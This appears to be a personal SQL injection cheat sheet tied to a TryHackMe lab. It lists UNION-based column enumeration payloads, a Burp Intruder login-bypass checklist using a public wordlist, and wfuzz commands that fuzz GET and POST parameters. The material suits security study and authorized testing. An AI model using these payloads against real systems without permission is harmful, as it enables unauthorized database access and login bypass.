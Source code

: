 - - -
**Cool payloads** : [https://tryhackme.com/room/sqlinjectionlm](https://tryhackme.com/room/sqlinjectionlm)
- - -

##### Increase the number to determine the number of columns : 
```mysql
' ORDER BY 1--
```

##### Confirm the "Order by" statement : (Same thing as above ☝️☝️)
```mysql
' UNION SELECT NULL,NULL,NULL--
```

##### Define string/numerical data in columns : 
```mysql
' UNION SELECT NULL,NULL,'a',NULL--
```

- - - 
#### **Sql-login-bypass** :

☐ Open Burp-suite
☐ Make and intercept a request
☐ Send to intruder
☐ Cluster attack.
☐ Paste in sqlibypass-list ([I am Wordlist !!](https://raw.githubusercontent.com/payloadbox/sql-injection-payload-list/master/Intruder/exploit/Auth_Bypass.txt))
☐ Attack
☐ Check for response length variation
- - -

#### **FUZZING** **:**

**<u>Fuzzing GET parameter</u>** :

```sh
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -u "$URL/index.php?id=FUZZ"
```


**<u>Fuzzing POST parameter</u>** :

```sh
wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/SQL.txt -d "id=FUZZ" -u "$URL/index.php"
```

- - -


